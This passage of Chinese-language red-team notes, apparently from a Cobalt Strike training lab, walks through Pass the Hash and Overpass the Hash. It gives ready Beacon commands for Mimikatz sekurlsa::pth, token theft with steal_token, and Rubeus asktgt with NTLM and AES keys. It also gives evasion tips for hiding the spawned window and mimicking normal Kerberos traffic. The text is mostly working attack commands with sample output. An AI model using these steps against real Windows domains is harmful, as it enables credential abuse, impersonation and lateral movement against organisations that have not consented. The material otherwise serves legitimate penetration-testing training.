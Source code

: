 [-] Could not connect to target
```
这种情况换一个有写权限的目录


此命令不需要本地管理员权限，就算是system账号运行，此命令也有可能会失败。

# Pass the Hash

Beacon 有一个专门的```pth```命令，可以在后台执行 Mimikatz

```
beacon> pth DEV\jking 4ffd3eabdce2e158d923ddec72de979e
```

手动执行 Mimikatz
```
beacon> mimikatz sekurlsa::pth /user:jking /domain:dev.cyberbotic.io /ntlm:4ffd3eabdce2e158d923ddec72de979e
```

上面的命令如果没有指定```/run```参数，则会弹出一个cmd.exe的窗口，这有可能会暴露自己，有违红队原则。

使用```/run```或者```powershell -w hidden```来隐藏创建的窗口

一旦pth的进程被创建，再使用steal_token来窃取身份

```
beacon> steal_token 6284
[+] Impersonated NT AUTHORITY\SYSTEM
```

使用```rev2self```和```kill```命令结束上面的进程
```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes

beacon> kill 6284
[*] Tasked beacon to kill 6284
[+] host called home, sent: 12 bytes
```


# Overpass the Hash

[Rubeus](https://github.com/GhostPack/Rubeus)允许我们在不需要提升权限的情况下执行 opth

步骤如下：
1. 为我们要模拟的用户创建一个TGT
2. 创建一个登陆会话
3. 将 TGT 传递到该登录会话中
4. 访问目标机器

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap
```


Rubeus 也有一个```/opsec```参数，在没有预授权的情况下发送请求，以更接近地模拟真正的 Kerberos 流量

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec
```
```